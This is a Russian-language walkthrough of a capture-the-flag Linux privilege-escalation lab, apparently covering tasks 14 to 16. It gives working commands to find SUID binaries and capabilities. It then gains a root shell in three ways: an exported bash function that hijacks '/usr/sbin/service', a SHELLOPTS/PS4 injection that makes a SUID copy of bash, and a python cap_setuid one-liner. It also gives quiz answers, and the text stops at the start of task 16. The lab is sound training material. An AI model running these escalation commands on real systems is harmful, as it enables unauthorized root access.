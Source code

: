 ## Задание 14
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `find / -type f -perm -04000 -ls 2>/dev/null`
2. В выводе обратите внимание на все двоичные файлы SUID.
3. В командной строке введите: `strings /usr/local/bin/suid-env2`
4. В выходных данных обратите внимание на функции, используемые двоичным файлом.

Метод эксплуатации №1 Linux- виртуальная машина

1. В командной строке введите:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. В командной строке введите:
export -f /usr/sbin/service
3. В командной строке введите: `/usr/local/bin/suid-env2`

Метод эксплуатации №2 Linux- виртуальная машина

1. В командной строке введите:
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`
### Ответьте на вопросы ниже
Какова последняя строка вывода « strings /usr/local/bin/suid-env2»  ?
```commandline
/usr/sbin/service apache2 start
```

## Задание 15
Обнаружение

Linux- виртуальная машина

1. В командной строке введите:  `getcap -r / 2>/dev/null`
2. В выводе обратите внимание на значение возможности «cap_setuid».

Эксплуатация Linux- виртуальная машина

1. В командной строке введите:
`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
2. Наслаждайтесь root-правами!
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.

```commandline
Ответ не нужен
```
## Задание 16
Обнаружение

Linux- виртуальная машина
